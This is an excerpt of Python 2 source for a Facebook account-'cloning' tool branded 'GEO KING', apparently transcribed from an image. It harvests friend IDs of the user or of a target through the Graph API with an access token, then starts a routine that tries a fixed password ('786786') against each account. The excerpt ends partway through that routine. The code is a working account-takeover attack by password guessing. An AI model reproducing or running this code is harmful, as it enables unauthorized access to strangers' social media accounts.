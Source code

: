 	print "\033[1;97m--\033[1;97m> \033[1;97m0.\033[1;97mBack"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;93mChoose an Option>>> \033[1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;93m❥•❥•❥•❥•❥•❥•❥•❥•\033[1;97mGEO KING\033[1;93m❥•❥•❥•❥•❥•❥•❥•❥•"
		jalan('\033[1;97mGetting IDs \033[1;93m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;93m[♡] \033[1;93mEnter ID\033[1;93m: \033[1;97m")
		print "\033[1;93m❥•❥•❥•❥•❥•❥•❥•❥•\033[1;97mGEO KING\033[1;93m❥•❥•❥•❥•❥•❥•❥•❥•"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;93mName\033[1;93m:\033[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;93mID Not Found!"
			raw_input("\n\033[1;97m[\033[1;91mBack\033[1;97m]")
			super()
		print"\033[1;93mGetting IDs\033[1;93m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;97mFill in correctly"
		pilih_super()
	
	print "\033[1;93mTotal IDs\033[1;93m: \033[1;97m"+str(len(id))
	jalan('\033[1;93mPlease Wait\033[1;93m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;93mCloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;97m«-----\x1b[1;93m■To Stop Process Press CTRL+Z■\033[1;97m----»"
	print "\033[1;93m❥•❥•❥•❥•❥•❥•❥•❥•\033[1;93mGEO KING\033[1;93m❥•❥•❥•❥•❥•❥•❥•❥•"
	jalan(' \033[1;97m ❥•❥•❥•❥•❥•❥•❥•❥•Cloning Start plzzz Wait❥•❥•❥•❥•❥•❥•❥•❥• ')
	print "\033[1;93m❥•❥•❥•❥•❥•❥•❥•❥•\033[1;97mGEO KING\033[1;93m❥•❥•❥•❥•❥•❥•❥•❥•"
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:GEO_KING
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('786786')